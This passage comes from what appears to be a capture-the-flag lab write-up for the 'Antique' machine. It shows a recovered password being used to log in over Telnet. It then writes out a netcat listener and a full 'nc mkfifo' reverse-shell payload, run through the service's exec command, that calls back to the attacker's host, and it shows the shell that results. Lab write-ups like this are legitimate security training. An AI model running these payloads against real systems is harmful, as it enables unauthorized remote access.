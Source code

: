 ```
P@ssw0rd@123!!123       ▒"#%&'01345789BCIPQTWXaetuyăĆđĔĕęĢģĦİıĴĵ
```

Alright, so the first part of the output looks like a password, and the second
part is gibberish. Let's focus on the first part then!

## Foothold (Telnet)

Back to Telnet, let's try to connect using `P@ssw0rd@123!!123` as the password.

```sh
❯ telnet "10.10.11.107"
```

```
<SNIP>
Password: P@ssw0rd@123!!123

Please type "?" for HELP
>
```

It worked!

### Getting a shell

We didn't get a real shell though. If we enter `?` as suggested to get a help
message, we see that we can execute commands with `exec`.

Let's use this to get a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'nc mkfifo' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

Therefore, after logging in to Antique over Telnet, the command we should enter to
execute our reverse shell payload is:

```sh
exec "/bin/bash" -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 9001 >/tmp/f"
```

Let's try it in practice.

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.107] 47878
<SNIP>
lp@antique:~$
```
